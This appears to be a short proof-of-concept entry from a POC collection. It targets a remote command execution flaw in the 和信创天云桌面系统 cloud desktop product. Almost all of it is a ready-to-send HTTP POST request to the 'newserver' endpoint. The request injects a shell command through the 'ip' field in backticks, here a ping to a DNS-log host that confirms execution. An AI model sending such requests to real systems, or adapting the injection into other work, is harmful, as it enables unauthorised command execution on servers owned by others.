 # hxct_newserver_rce

product: 和信创天云桌面系统
from: https://github.com/wy876/POC/blob/main/%E5%92%8C%E4%BF%A1%E5%88%9B%E5%A4%A9/%E5%92%8C%E4%BF%A1%E5%88%9B%E5%A4%A9%E4%BA%91%E6%A1%8C%E9%9D%A2%E7%B3%BB%E7%BB%9Fnewserver%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
```
POST /vesystem/index.php/New/Fn/newserver HTTP/1.1
Host: 
Accept-Encoding: gzip
Connection: close
Content-Length: 118
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

ip=`ping dnslog`&user=1&pwd=1&type=1&c_type=1&local=1&server_os_str=1&server_os_version_str=1
```
